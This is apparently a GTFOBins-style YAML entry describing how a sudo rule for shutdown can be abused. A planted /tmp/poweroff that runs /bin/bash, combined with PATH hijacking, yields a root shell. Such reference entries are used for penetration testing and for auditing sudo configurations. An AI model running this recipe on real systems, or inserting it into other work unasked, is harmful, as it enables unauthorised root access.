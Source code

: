 ```yaml
---
functions:
  sudo:
    - description: This can help us get the root user Shell
    - code: |
        echo /bin/bash > /tmp/poweroff
        chmod +x /tmp/poweroff
        export PATH=/tmp:$PATH
        sudo -u root /usr/sbin/shutdown
---
```

